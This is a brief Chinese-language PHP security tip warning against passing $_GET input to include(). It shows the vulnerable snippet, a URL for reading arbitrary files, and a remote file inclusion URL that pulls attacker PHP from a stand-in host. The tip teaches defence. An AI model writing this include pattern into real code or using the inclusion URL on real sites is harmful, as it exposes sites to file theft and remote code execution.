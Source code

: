## include($_GET['p']) 的安全隐患

不要 Include 或 require 从 $_GET, $_POST 或 $_COOKIE 中得到的文件。

例如:
```php
//including header, config, database connection, etc  

include($_GET['p']);  

//including footer  
```

黑客现在可以用：`http://www.yourdomain.com/index.php?p=anyfile.txt` 来获取你的机密信息，或执行一个PHP脚本。 如果 `allow_url_fopen=On`，你更是死定了： 试试这个输入：`http://www.yourdomain.com/index.php?p=http://youaredoomed.com/phphack.php` 现在你的网页中包含了`http://www.youaredoomed.com/phphack.php` 的输出。黑客可以发送垃圾邮件，改变密码，删除文件等等。只要你能想得到。
